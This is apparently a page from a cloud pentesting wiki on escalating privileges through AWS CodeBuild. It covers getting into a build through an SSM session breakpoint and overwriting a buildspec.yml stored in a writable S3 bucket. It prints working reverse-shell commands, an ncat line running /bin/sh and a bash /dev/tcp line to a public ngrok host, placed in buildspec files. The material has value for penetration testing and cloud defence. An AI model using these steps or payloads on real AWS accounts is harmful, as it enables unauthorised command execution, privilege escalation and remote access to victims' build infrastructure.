 ### SSM

Having **enough permissions to start a ssm session** it's possible to get **inside a Codebuild project** being built.

The codebuild project will need to have a breakpoint:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

And then:

```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```

For more info [**check the docs**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

An attacker able to start/restart a build of a specific CodeBuild project which stores its `buildspec.yml` file on an S3 bucket the attacker has write access to, can obtain command execution in the CodeBuild process.

Note: the escalation is relevant only if the CodeBuild worker has a different role, hopefully more privileged, than the one of the attacker.

```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml 

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```

You can use something like this **buildspec** to get a **reverse shell**:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
  build:
    commands:
      - bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}

